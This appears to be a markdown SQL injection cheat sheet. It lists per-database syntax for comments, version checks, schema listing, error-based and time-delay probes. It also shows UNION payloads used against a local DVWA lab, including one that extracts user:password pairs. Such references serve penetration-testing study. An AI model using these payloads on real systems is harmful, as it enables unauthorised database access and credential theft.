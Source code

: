 #### comments

| syntax | type |
|:---:|:---:|
|```--comment```|*oracle, microsoft, postgresql*|
|```-- comment```|*mysql*|
|```/*comment*/```|*microsoft, postgresql, mysql*|

-----


#### string concatenation

| syntax | type |
|:---:|:---:|
|```'foo'\|\|'bar'```|*oracle, postgresql*|
|```'foo'+'bar'```|*microsoft*|
|```'foo' 'bar'```|*mysql*|
|```CONCAT('foo','bar')```|*mysql*|

-----


#### version

| syntax | type |
|:---:|:---:|
|```SELECT version FROM v$instance```|*oracle*|
|```SELECT banner from v$instance```|*oracle*|
|```SELECT @@version```|*microsoft, mysql*|
|```SELECT version()```|*postgresql*|

-----


#### database contents

| syntax | type |
|:---:|:---:|
|```SELECT * FROM all_tables```|*oracle*|
|```SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'```|*oracle*|
|```SELECT * FROM information_schema.tables```|*microsoft, postgresql, mysql*|
|```SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'```|*microsoft, postgresql, mysql*|

-----


#### conditional errors

| syntax | type |
|:---:|:---:|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual```|*oracle*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END```|*microsoft*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END```|*postgresql*|
|```SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')```|*mysql*|

-----


#### time delays

| syntax | type |
|:---:|:---:|
|```dbms_pipe.receive_message(('a'),10)```|*oracle*|
|```WAITFOR DELAY '0:0:10'```|*microsoft*|
|```SELECT pg_sleep(10)```|*postgresql*|
|```SELECT sleep(10)```|*mysql*|

-----


#### union statements

*web app*

```SELECT first_name, last_name FROM users UNION SELECT username, password FROM login;```

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1%3B--*

```User ID: 1’ UNION SELECT 1;- -``` *no data different number of columns*

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1,2%3B--*

```User ID: 1’ UNION SELECT 1,2;- -``` *returns data (number of columns match)*

-----


#### enumeration

*extract list of tables*

```1' UNION SELECT 1,table_name FROM information_schema.tables;- -```

*extract column names*

```1' UNION SELECT 1,column_name FROM information_schema.columns;- -```

*concat and extract data*

```1' UNION SELECT 1,concat(user,':',password) FROM users;- -```
